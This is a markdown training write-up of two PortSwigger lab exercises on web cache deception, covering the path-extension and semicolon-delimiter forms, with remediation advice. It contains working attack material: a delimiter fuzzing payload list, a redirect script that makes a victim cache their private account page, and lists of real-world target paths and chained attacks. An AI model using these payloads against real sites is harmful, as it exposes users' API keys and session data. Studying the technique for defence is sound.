




# 🧠 📘LAB-1 (WEB CACHE DECEPTION) 

## 🟢 1️⃣ OVERVIEW

Web Cache Deception is a vulnerability where:

A cache stores private user data because it mistakes a dynamic response for a static file.

👉 Attacker later reuses the same URL to retrieve cached private data.

---

## 🟢 2️⃣ WHAT IS HAPPENING (CORE IDEA)

There are two systems behaving differently:

| Component | Behavior |
|---|---|
| Origin server | returns correct user data (dynamic) |
| Cache (CDN/proxy) | treats URL as static file |

👉 This mismatch creates the bug.

---

## 🟢 3️⃣ KEY CONCEPTS USED IN LAB

### 🔹 Sensitive endpoint

```text
/my-account
```

Contains:

```text
API key (private data)
```

### 📸 Screenshot — API Key in `/my-account`


---

### 🔹 Path confusion test

Server ignores extra path:

```text
/my-account/abc
```

Still returns same data → server is flexible.

### 📸 Screenshot — Path Manipulation Still Returns Response


---

### 🔹 Cache trigger extension

Cache treats file extensions as static:

```text
/my-account/abc.js
```

### 📸 Screenshot — `.js` Extension Changes Cache Behavior


---

## 🟢 4️⃣ HOW CACHE DECIDES STORAGE

Cache uses:

```text
Cache Key = full URL
```

So:

```text
/my-account/abc.js ≠ /my-account
```

👉 Treated as different resource → cached separately.

---

## 🟢 5️⃣ LAB WALKTHROUGH (STEP-BY-STEP)

### 🟢 STEP 1 — Login

```text
wiener : peter
```

Go to:

```text
/my-account
```

👉 See your API key

---

### 🟢 STEP 2 — Send to Burp Repeater

```http
GET /my-account
```

Send to Repeater

---

### 🟢 STEP 3 — Test path handling

Change:

```text
/my-account/abc
```

Send request

👉 API key still appears

✔ Server ignores extra path

---

### 🟢 STEP 4 — Test cache rule

Change:

```text
/my-account/abc.js
```

Send request

Check headers:

```http
X-Cache: miss
Cache-Control: max-age=30
```

---

### 🟢 STEP 5 — Confirm caching

Resend same request:

```text
/my-account/abc.js
```

Now:

```http
X-Cache: hit
```

✔ Response is cached

### 📸 Screenshot — Cached Response (`X-Cache: hit`)


---

### 🟢 STEP 6 — Create exploit

Exploit server:

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"
</script>
```

---

### 🟢 STEP 7 — Deliver exploit

Click:

```text
Deliver exploit to victim
```

👉 Victim (carlos) loads URL

---

### 🟢 STEP 8 — Retrieve victim data

Open:

```text
/my-account/wcd.js
```

👉 You get:

```text
Carlos API key
```

---

### 🟢 STEP 9 — Submit solution

Copy API key → Submit

---

## 🟢 6️⃣ WHY LAB WORKS (IMPORTANT INSIGHT)

Server returns dynamic private data  
BUT cache stores it as static (`.js` rule)

👉 This mismatch is the vulnerability.

---

## 🟢 7️⃣ CACHE BEHAVIOR (VERY IMPORTANT)

| Header | Meaning |
|---|---|
| `X-Cache: miss` | fetched from server |
| `X-Cache: hit` | served from cache |

---

## 🟢 8️⃣ ROOT CAUSE

Cache trusts file extension rules  
Server ignores fake path segments

---

## 🟢 9️⃣ ATTACK FLOW

```text
1. Find sensitive endpoint (/my-account)
2. Confirm path is ignored by server
3. Add static extension (.js)
4. Victim visits URL
5. Cache stores response
6. Attacker reuses URL
7. Steals victim data
```

---

## 🟢 🔟 REAL-WORLD SCENARIOS

- API key leaks
- Bank statements exposure
- SaaS dashboard leaks
- User profile leaks
- Internal admin panels

---

## 🟢 1️⃣1️⃣ HIGH-VALUE TARGETS

```text
/my-account
/profile
/dashboard
/api/user
/settings
```

---

## 🟢 1️⃣2️⃣ VARIATIONS

```text
/profile/test.js
/api/user/abc.css
/account/info.json.js
/profile/../profile.js
```

---

## 🟢 1️⃣3️⃣ REMEDIATION

### ✔ Disable caching

```http
Cache-Control: no-store
```

---

### ✔ Fix routing

Avoid:

```text
/profile*
```

Use strict routes:

```text
/profile
```

---

### ✔ Restrict CDN rules

Instead of:

```text
*.js
```

Use:

```text
/static/*.js
```

---

### ✔ Validate URLs

Reject:

```text
/my-account/random.js
```

---

## 🟢 1️⃣4️⃣ FINAL MENTAL MODEL

```text
Server = truth (data)
Cache = performance layer (blind rules)

Bug = mismatch between both interpretations
```

---

## 🔥 FINAL SUMMARY

Web Cache Deception = trick cache into storing private responses by disguising them as static file requests.

---

# 🧠 📘LAB-2 WEB CACHE DECEPTION - DELIMITER DISCREPANCY 

---

## 🟢 1️⃣ OVERVIEW

Web Cache Deception using delimiter discrepancies is a vulnerability where:

The origin server and cache interpret special characters (delimiters) differently, allowing attackers to trick the cache into storing private data as static content.

---

## 🟢 2️⃣ WHAT IS THIS TOPIC

This topic focuses on:

How special characters like `;` or `?` are treated differently by server and cache

👉 Goal of attacker:

Hide a fake static file extension from the server but not from the cache

---

## 🟢 3️⃣ CORE CONCEPT

### 🔹 Delimiter meaning

A delimiter is a character that separates parts of a URL

Examples:

| Character | Use |
|---|---|
| `?` | query separator |
| `;` | matrix parameter (Spring) |
| `.` | file extension |
| `%00` | null byte |

---

### 🔹 Vulnerability condition

```text
Server uses delimiter → ignores rest of path
Cache ignores delimiter → processes full path
```

---

## 🟢 4️⃣ LAB WALKTHROUGH (EXACT — NO SKIPS)

### 🟢 STEP 1 — Login

```text
wiener : peter
```

Go to:

```text
/my-account
```

👉 Observe:

```text
Your API key is visible
```

---

### 🟢 STEP 2 — Send request to Repeater

```http
GET /my-account
```

👉 Send to Repeater

---

### 🟢 STEP 3 — Test path behavior

Change:

```text
/my-account/abc
```

👉 Response:

```text
404 Not Found
```

✔ Meaning:

Server does NOT ignore extra path

### 📸 Screenshot — Random Path Returns 404



---

### 🟢 STEP 4 — Create reference response

Change:

```text
/my-accountabc
```

👉 Response:

```text
404 Not Found
```

✔ This is baseline response

---

### 🟢 STEP 5 — Find delimiter (Intruder)

### Payload position:

```text
/my-account§§abc
```

### Payload list:

```text
;
?
/
.
#
%00
:
```

### Disable encoding:

```text
Uncheck URL encoding
```

Run attack

### 🟢 STEP 6 — Analyze results

Sort by Status Code

👉 Result:

```text
; → 200 OK
? → 200 OK
others → 404
```

✔ Meaning:

`;` and `?` are delimiters

### 📸 Screenshot — Intruder Finding Valid Delimiters



---

### 🟢 STEP 7 — Test cache behavior

### Test `?`

```text
/my-account?abc.js
```

👉 No caching

✔ Meaning:

Cache ALSO treats `?` as delimiter

---

### Test `;`

```text
/my-account;abc.js
```

👉 First:

```http
X-Cache: miss
Cache-Control: max-age=30
```

✔ Meaning:

Server ignores `;`  
Cache does NOT → sees `.js` → caches response

💥 Vulnerability confirmed

### 📸 Screenshot — `;` + `.js` Cached Response (`X-Cache: miss`)



---

### 🟢 STEP 8 — Confirm cache hit

Send again:

```text
/my-account;abc.js
```

👉 Response:

```http
X-Cache: hit
```

✔ Response served directly from cache

### 📸 Screenshot — Cached Response (`X-Cache: hit`)



---

### 🟢 STEP 9 — Create exploit

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account;wcd.js"
</script>
```

---

### 🟢 STEP 🔟 — Deliver exploit

```text
Deliver exploit to victim
```

---

### 🟢 STEP 1️⃣1️⃣ — Retrieve data

Open:

```text
/my-account;wcd.js
```

👉 Get:

```text
Carlos API key
```

---

### 🟢 STEP 1️⃣2️⃣ — Submit

```text
Submit API key → Lab solved
```

---

## 🟢 5️⃣ PAYLOAD (FINAL)

```html
<script>
document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account;wcd.js"
</script>
```

---

## 🟢 6️⃣ PAYLOAD BREAKDOWN

### 🔹 Full URL

```text
/my-account;wcd.js
```

### 🔹 Server view

```text
/my-account
```

→ returns private data

### 🔹 Cache view

```text
/my-account;wcd.js
```

→ sees `.js` → caches it

---

## 🟢 7️⃣ REAL-WORLD SCENARIOS

### 🔴 Scenario 1 — Profile leakage

```text
/profile;test.js
```

### 🔴 Scenario 2 — API endpoint

```text
/api/user;data.css
```

### 🔴 Scenario 3 — Dashboard leak

```text
/dashboard;info.js
```

---

## 🟢 8️⃣ VARIATIONS

### 🔹 Different delimiters

```text
;
?
%00
.
```

### 🔹 Different extensions

```text
.js
.css
.ico
.exe
```

### 🔹 Combined payloads

```text
/profile;abc.css
/profile%00abc.js
/profile.ico.js
```

---

## 🟢 9️⃣ MULTI-CHAIN ATTACKS

### 🔴 Chain 1

```text
Web Cache Deception → steal session/API → account takeover
```

### 🔴 Chain 2

```text
Cache deception → admin data leak → privilege escalation
```

### 🔴 Chain 3

```text
Cache deception → CSRF token leak → bypass protections
```

---

## 🟢 🔟 HIGH-VALUE TARGETS

```text
/my-account
/profile
/api/user
/dashboard
/settings
```

---

## 🟢 1️⃣1️⃣ REMEDIATION

### ✔ 1. Disable caching for private data

```http
Cache-Control: no-store
```

---

### ✔ 2. Normalize URL parsing

Reject unexpected delimiters

---

### ✔ 3. Strict routing

Avoid:

```text
/my-account*
```

Use:

```text
/my-account only
```

---

### ✔ 4. Restrict cache rules

Avoid:

```text
*.js
```

Use:

```text
/static/*.js
```

---

### ✔ 5. Validate extensions

Reject dynamic endpoints with static extensions

---

## 🟢 1️⃣2️⃣ MENTAL MODEL

```text
Server cuts URL at delimiter
Cache does NOT

→ fake extension visible to cache only
→ private data cached
```

---

## 🔥 FINAL SUMMARY

Delimiter discrepancy lets attacker hide a fake static extension from the server but not the cache, causing sensitive data to be cached and leaked.

---
